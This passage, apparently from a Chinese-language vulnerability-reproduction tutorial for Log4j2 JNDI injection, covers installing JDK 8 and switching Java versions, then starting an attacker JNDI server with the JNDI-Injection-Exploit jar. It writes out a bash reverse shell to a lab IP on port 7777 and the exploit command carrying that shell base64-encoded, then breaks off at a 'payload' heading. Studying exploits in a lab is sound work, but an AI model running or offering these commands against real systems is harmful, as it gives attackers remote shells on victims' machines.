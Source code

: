 ```bash
update-alternatives --install /usr/bin/java java /opt/jdk1.8.0_91/bin/java 1
update-alternatives --install /usr/bin/javac javac /opt/jdk1.8.0_91/bin/javac 1
update-alternatives --set java /opt/jdk1.8.0_91/bin/java
update-alternatives --set javac /opt/jdk1.8.0_91/bin/javac
```

###### 查看结果

```bash
update-alternatives --config java
update-alternatives --config javac
```

##### 3.测试

```bash
java -version
```

##### 或者 配置环境变量

```python
tar -xzf jdk-8u91-linux-x64.tar.gz
mv jdk1.8.0_91 /opt
cd /opt/jdk1.8.0_91
vim /etc/profile

export JAVA_HOME=/opt/jdk1.8.0_91
export PATH=$JAVA_HOME/bin:$PATH
export CLASSPATH=.:$JAVA_HOME/lib/dt.jar:$JAVA_HOME/lib/tools.jar

source /etc/profile
```

#### 开启jndi服务器

##### JNDI-Injection-Exploit

github：https://github.com/welk1n/JNDI-Injection-Exploit

下载地址：https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar

##### 构造

> bash -i >& /dev/tcp/192.168.70.4/7777 0>&1 

```python
java -jar /root/tools/log4j2/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjcwLjQvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}" -A 192.168.70.4
```

![image-20240923111826809](https://image.201068.xyz/assets/36.漏洞复现/image-20240923111826809.png)

### payload
